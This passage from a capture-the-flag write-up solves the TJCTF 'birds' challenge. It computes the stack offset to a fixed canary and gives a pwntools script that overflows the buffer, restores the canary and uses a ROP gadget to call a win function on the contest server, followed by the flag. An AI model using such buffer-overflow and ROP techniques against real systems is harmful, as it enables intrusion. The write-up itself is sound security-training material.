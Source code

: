 buf starts at: `rbp - 80`\
canary starts at: `rbp - 4`

The distance is the difference between the two locations:\
`offset = (canary location) - (buf location)`\
`offset = (rbp - 4) - (rbp - 80)`\
`offset = -4 - (-80)`\
`offset = 76`\

and then for `ret` address\
`0x0000000000401285`

so this is the solver:
```py
from pwn import *

elf = context.binary = ELF('./birds')
p = remote('tjc.tf', 31625)
POP_RDI_GADGET = 0x00000000004011c0 
WIN_FUNC_ADDR = 0x00000000004011c4  
SECRET_VALUE = 0xA1B2C3D4
CANARY_VALUE = 0xDEADBEEF
payload = b'A' * 76
payload += p32(CANARY_VALUE)
payload += b'B' * 8
rop_chain = b''
rop_chain += p64(POP_RDI_GADGET) 
rop_chain += p64(SECRET_VALUE)      
rop_chain += b'JUNKJUNK'           
rop_chain += p64(WIN_FUNC_ADDR)        
final_payload = payload + rop_chain
p.recvuntil(b'Prove me wrong!\n')
p.sendline(final_payload)
p.interactive()
```
![](ilovebirdsflag.png)

Flag: `tjctf{1_gu355_y0u_f0und_th3_f4ke_b1rd_ch1rp_CH1rp_cH1Rp_Ch1rP_ch1RP}`

### extra-credit
